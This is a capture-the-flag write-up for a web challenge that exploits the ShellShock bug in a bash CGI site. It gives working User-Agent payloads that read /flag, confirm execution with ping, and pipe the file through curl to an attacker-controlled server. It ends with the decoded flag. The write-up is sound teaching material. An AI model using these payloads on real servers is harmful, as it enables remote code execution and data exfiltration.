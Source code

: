 # SimpleWeb

**Category:** Web
**Points:** 40

**Description:**

You know i am a little noob in web developing. so i just started to create a simple web. But yesterday this crazy friend of mine shocked me to death and said he just hacked my webpage and can read all of my files. VOW! how the hell he did that. can you check it out. for example can you see what is in /flag to prove me he is right.

## Solution

The challenge is created using bash & cgi. Website is very simple and contains nothing just a bunch of static pages. 
There is a hint in description of challenge that says: ```... But yesterday this crazy friend of mine shocked me to death ....``` and will remind us the ShellShock vulnerability that could lead to code execution on server running with bash.

One of the methods to exploit using shellshock, is setting shellshock magic code ```() { :; };``` in user-agent field of http-request-header.
So let's test it. 

Fire up something like tamper-data or burpsuite and set code below in user-agent:

```
() { :; } ; /bin/bash -c "cat /flag"
```

we will get a error result and will not see what is in ```/flag``` file.

```html
<h1>Internal Server Error</h1>
<p>The server encountered an internal error or
misconfiguration and was unable to complete
your request.</p>
<p>Please contact the server administrator at 
 webmaster@localhost to inform them of the time this error occurred,
 and the actions you performed just before this error.</p>
<p>More information about this error may be available
in the server error log.</p>
<hr>
<address>Apache/2.4.7 (Ubuntu) Server at 192.168.32.136 Port 80</address>
```

Running some other commands, we can see that using ```ping``` will give us a huge hint:

```
() { :; } ; /bin/bash -c "ping -c 10 google.com"
```

By executing this command, page will be loaded after 10 ping request sent. So we definetly sure that this is ShellShock vulnerability and flag is only accessible by exploiting it.
There is no way to see the contents of ```/flag``` in the response, so we should find a way to read flag.

***Magic Solution***
------
What if we read ```/flag``` file, but doesn't show it's content in the response? What if we send this result back to our server.
YES.

####The solution is to read /flag, then send that result to our server using something like curl and on our server setup wireshark or read access.log file.

By using this command and firing up wireshark on our server, we could get the flag:

```
() { :; } ; /bin/bash -c "cat /flag | curl -X GET -d @- http://<our server address>"
```

This command will read contents of ```/flag``` and will pipe it into curl. curl will use this value and will send  a ```GET``` request to our server like this:

```
curl -X GET http://<our server address>/<contents of "/flag">
```

On the other hand if we check our server log-files or wireshark/tshark output, we will see a GET request for a url like below:

```
http://simpleweb.iutcert.io/Q2hldCBSYW1leSBpcyB0aGUgbWFpbnRhaW5lciBvZiBTaGVsbFNob2NrIHZ1bG5lcmFiaWxpdHkuIGZsYWcgaXMgU2gzbGw1aDBDS180MW0wNTdfayExMTNkX0I0NUhISAo
```

So the directory after simpleweb.iutcert.io, is actually the contents of ```/flag```:

```
Q2hldCBSYW1leSBpcyB0aGUgbWFpbnRhaW5lciBvZiBTaGVsbFNob2NrIHZ1bG5lcmFiaWxpdHkuIGZsYWcgaXMgU2gzbGw1aDBDS180MW0wNTdfayExMTNkX0I0NUhISAo=
```

it's obvious that it is base64-encoded. decoding it will give us:

```
Chet Ramey is the maintainer of ShellShock vulnerability. flag is Sh3ll5h0CK_41m057_k!113d_B45HHH
```

And the flag is: 
**Sh3ll5h0CK_41m057_k!113d_B45HHH**


